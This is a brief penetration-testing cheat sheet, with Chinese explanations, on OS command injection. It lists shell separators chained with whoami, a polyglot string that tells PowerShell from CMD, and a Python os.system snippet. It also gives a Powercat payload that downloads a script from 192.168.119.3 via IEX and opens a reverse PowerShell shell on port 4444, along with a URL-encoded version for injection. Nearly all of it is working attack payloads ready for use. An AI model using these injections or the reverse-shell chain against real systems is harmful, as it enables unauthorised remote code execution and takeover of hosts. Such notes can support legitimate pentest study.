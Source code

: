 ### OS Command Injection
###### Common ways
```
;：执行完前面的语句再执行后面的。例如： ping 127.0.0.1;whoami。
|：显示后面语句的执行结果。例如： ping 127.0.0.1|whoami。
||：或，如果前面命令成功执行，那么命令结束执行；当前面的语句执行出错时，执行后面的语句。例如： ping 127.0.0.1||whoami。
&：如果前面的语句为假则直接执行后面的语句，前面的语句可真可假 。例如： ping 127.0.0.1&whoami。
&&：如果前面的语句为假则直接出错，也不执行后面的，前面的语句只能为真。例如： ping 127.0.0.1&&whoami。
```
###### Powershell Or CMD
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
urlencode((dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell)
```
###### Powercat
>Powercat is a PowerShell implementation of Netcat included in Kali
```
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
urlencode(git;IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell)
```
### Python3
```
__import__('os').system('cmd')
```
